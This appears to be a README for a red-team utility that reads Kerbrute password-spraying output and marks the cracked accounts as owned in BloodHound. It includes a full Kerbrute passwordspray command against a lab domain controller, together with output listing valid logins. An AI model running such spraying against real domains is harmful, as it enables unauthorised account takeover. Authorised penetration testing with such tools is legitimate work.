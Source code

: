 Mark users has owned in BloodHound from various sources

# Tools

- [X] Kerbrute
- [ ] SharpSpray

# Usage

## Using Kerbrute

``` console
$ kerbrute passwordspray list_of_users.txt --dc 192.168.30.51 --domain MARVEL.local 'P@ssword321' | gowned -source 'kerbrute' -output

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 03/08/24 - Ronnie Flathers @ropnop

2024/03/08 14:37:43 >  Using KDC(s):
2024/03/08 14:37:43 >   192.168.30.51:88

2024/03/08 14:37:43 >  [+] VALID LOGIN:  aaa@MARVEL.local:P@ssword321
2024/03/08 14:37:43 >  [+] VALID LOGIN:  bbb@MARVEL.local:P@ssword321
2024/03/08 14:37:43 >  [+] VALID LOGIN:  ccc@MARVEL.local:P@ssword321
2024/03/08 14:37:43 >  [+] VALID LOGIN:  ddd@MARVEL.local:P@ssword321
2024/03/08 14:37:43 >  Done! Tested 41 logins (4 successes) in 0.280 seconds
2024/03/08 14:37:43 Added aaa@MARVEL.local as owned
2024/03/08 14:37:43 Added bbb@MARVEL.local as owned
2024/03/08 14:37:43 Added ccc@MARVEL.local as owned
2024/03/08 14:37:43 Added ddd@MARVEL.local as owned
```

Note that is also possible to `cat` a kerbrute output file, something like 

```console
$ cat temp.txt | gowned -source 'kerbrute'
```